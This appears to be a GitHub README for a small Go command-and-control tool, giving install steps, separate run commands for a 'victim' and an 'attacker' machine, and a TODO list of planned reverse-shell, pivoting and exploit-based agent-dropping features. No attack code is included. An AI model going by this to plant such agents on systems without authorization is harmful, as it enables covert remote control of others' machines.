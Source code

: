 

# Go-C2 v0.1

## What is this? 
This is a fairly small tool I wrote that is basically a C2 and an Agent for that C2, additionally the Agent can act as a proxy server when needed.
*Fair warning, the proxy doesn't exactly work that well so take that into account*

## Why? 
Because I was annoyed that metasploit's meterpreters don't have a port scanning option so I implemented one myself


## Features:
* C2 client
* Agent

## Installing:
```sh
git clone https://github.com/mrLochness350/Go-C2.git
cd Go-C2
chmod +x install.sh
./install.sh
```
# Usage:

**On Victim PC**
```sh
$ ./Agent_linux_amd64 -c <C2 Address> -p <C2 Port>
```

**On Attacker PC**
```sh
$ ./C2_linux_amd64 -c <Agent Address> -p <Agent Port>
```


# TODO:

### General:
* Encrypt C2/Agent traffic
* Add 2-way authentication to avoid snooping

### Agent
* Fix proxy problems
* Add extra verbosity
* Add background option
* Make the connection a reverse shell
* Add option to drop into shell and not only execute code via the `shell` argument
* Add option to host the C2 from the Agent as a pivot-point

### C2
* Add multiple host listeners
* Add option to drop Agent via exploits
* Make the cli more interactive
* Execute commands on an Agent from the cli 

